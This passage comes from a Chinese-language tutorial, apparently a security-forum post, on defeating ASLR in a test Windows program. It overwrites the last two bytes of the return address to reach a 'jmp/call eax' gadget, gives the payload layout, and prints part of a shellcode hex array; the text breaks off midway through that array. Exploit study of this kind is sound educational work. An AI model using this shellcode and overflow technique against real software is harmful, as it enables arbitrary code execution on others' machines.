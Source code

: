 由于我们没有开启 GS，超过 200 字节后将直接覆盖返回地址，现在我们知道返回地址的前两个字节（00FD）将会随机化，但是后面的两个字节是固定的，现在我们只要将我们 ShellCode 地址的后两字节用来覆盖返回地址即可执行 ShellCode：  
str 起始地址：

[![](assets/1709261916-88c93f78a2867674ff5886eb8b7c21f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228170938-199735b2-d619-1.png)

现在我们将 Payload 这样布置：  
| ShellCode | \\x90 填充 | 2 字节覆盖地址 |  
|--|--|--|

现在我们要如何跳转到 ShellCode 开始执行呢？观察寄存器，发现进行内存复制后，eax 指向 str，也就是我们的 ShellCode 地址，我们只需要一个 call eax 或者 jmp eax 就可以执行我们的 ShellCode 了，我们来搜索一下 gadgets：

[![](assets/1709261916-8cf419d8c999c31453229d1538bbd5f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228172611-696e01c2-d61b-1.png)

这里我们只能使用第一个，因为前两个字节是随机的，我们无法控制，这里将返回地址后两个字节覆盖为 23E5 后，正好可以指向这个跳板。

Payload：

```bash
//------------------------------------------------------------
//-----------       Created with 010 Editor        -----------
//------         www.sweetscape.com/010editor/          ------
//
// File    : G:\漏洞原理\ASLR\Debug\111.txt
// Address : 0 (0x0)
// Size    : 206 (0xCE)
//------------------------------------------------------------
unsigned char hexData[206] = {
    0xFC, 0xE8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89,
    0xE5, 0x31, 0xC0, 0x64, 0x8B, 0x50, 0x30, 0x8B,
    0x52, 0x0C, 0x8B, 0x52, 0x14, 0x8B, 0x72, 0x28,
    0x0F, 0xB7, 0x4A, 0x26, 0x31, 0xFF, 0xAC, 0x3C,
    0x61, 0x7C, 0x02, 0x2C, 0x20, 0xC1, 0xCF, 0x0D,
    0x01, 0xC7, 0xE2, 0xF2, 0x52, 0x57, 0x8B, 0x52,
    0x10, 0x8B, 0x4A, 0x3C, 0x8B, 0x4C, 0x11, 0x78,
    0xE3, 0x48, 0x01, 0xD1, 0x51, 0x8B, 0x59, 0x20,
    0x01, 0xD3, 0x8B, 0x49, 0x18, 0xE3, 0x3A, 0x49,
    0x8B, 0x34, 0x8B, 0x01, 0xD6, 0x31, 0xFF, 0xAC,
    0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0x38, 0xE0, 0x75,
    0xF6, 0x03, 0x7D, 0xF8, 0x3B, 0x7D, 0x24, 0x75,
    0xE4, 0x58, 0x8B, 0x58, 0x24, 0x01, 0xD3, 0x66,
    0x8B, 0x0C, 0x4B, 0x8B, 0x58, 0x1C, 0x01, 0xD3,
```